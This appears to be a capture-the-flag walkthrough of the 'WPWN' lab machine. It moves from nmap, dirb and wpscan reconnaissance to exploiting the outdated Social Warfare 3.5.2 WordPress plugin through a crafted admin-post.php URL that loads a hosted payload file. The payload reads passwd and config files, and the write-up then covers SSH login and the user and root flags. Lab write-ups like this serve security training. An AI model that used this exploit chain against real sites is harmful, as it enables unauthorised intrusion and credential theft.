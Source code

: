 *WPWN*  

**RECON**
---
**Ip Search**  
Our IP leads us to this blank page lets move to scanning  
![image6](https://user-images.githubusercontent.com/66635295/158526173-aa39b52e-d9c3-4ac0-8865-9792b5497a4f.png)
**Nmap Scan**  
[nmap -sV -sC 192.168.55.123]  
-version -safescan
Port 22, and 80 are open  
![image3](https://user-images.githubusercontent.com/66635295/158744691-d688bd5d-81d7-4af4-b510-a2e1b527177f.png)  
**Scan for hidden directories (dirbuster)**   
[dirb http:// 192.168.55.123]  
![image8](https://user-images.githubusercontent.com/66635295/158747642-86dbd602-e37e-499f-b37f-430b1b4870e5.png)  
**WordPress Page**  
![image7](https://user-images.githubusercontent.com/66635295/158747979-04e74459-23fc-4d85-add5-2ddb83e22836.png)  
**Scan for wordpress vulnerabilities**   
[wpscan --url http:// 192.168.55.123/wordpress/]
![image1](https://user-images.githubusercontent.com/66635295/158748297-d989c1f4-acdc-4e01-bef1-9e606e4ed10c.png)  
**Scan reveals outdated plugin named Social-Warfare 3.5.2**  
This Vulnerability allows commands to run for obtaining user Credentials  
![image15](https://user-images.githubusercontent.com/66635295/158748468-74c92d41-881e-4414-9070-43a2bb30d4f1.png)  
**Payload File**    
Shows passwd file contents  
![image5](https://user-images.githubusercontent.com/66635295/158751852-ada62fb4-56f6-4e2f-ae20-68cd67dd5b81.png)

**Python Simple server**  
[python3 -m http.server 80]  
![image14](https://user-images.githubusercontent.com/66635295/158752244-0f7a0d8f-8f83-41cd-b61b-d747a62290ce.png)




**ENUMURATION**
---
**Visit Website**  
[http:// 192.168.55.123/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://localhost/payload.txt]    
User Takis is revealed 
![image10](https://user-images.githubusercontent.com/66635295/158752455-4b285dee-5cd6-4449-a4f3-9d179e54d6a2.png)  
**Config.php**
Word press config.php holds important info. The payload can be used to check for it  
![image9](https://user-images.githubusercontent.com/66635295/158752587-5af73a09-806d-4ada-bb96-16bcc3e5bd9e.png)
**Visit Website**
Viewing the source reveals a password for a SQL database  
![image11](https://user-images.githubusercontent.com/66635295/158753420-c9d6f360-973a-4eb9-b88d-afbf3f213196.png)

**Privilege Escalation**
---
**Server SSH**  
[sudo ssh takis@192.168.55.123]  
![image4](https://user-images.githubusercontent.com/66635295/158753672-415311f6-028b-4345-8a98-cfcf7a3a7ed9.png)
**User Flag**      
local.txt  
![image13](https://user-images.githubusercontent.com/66635295/158753764-e78a55f8-f9fa-4179-8dc4-fe9691bcf19c.png)     
**Check User Privileges**    
![image12](https://user-images.githubusercontent.com/66635295/158753967-f2d267fc-93d9-442f-94c4-b7463bf2db7c.png)  
**Root Flag**  
![image2](https://user-images.githubusercontent.com/66635295/158754479-c0661600-777c-40ca-bd02-90885402a584.png)

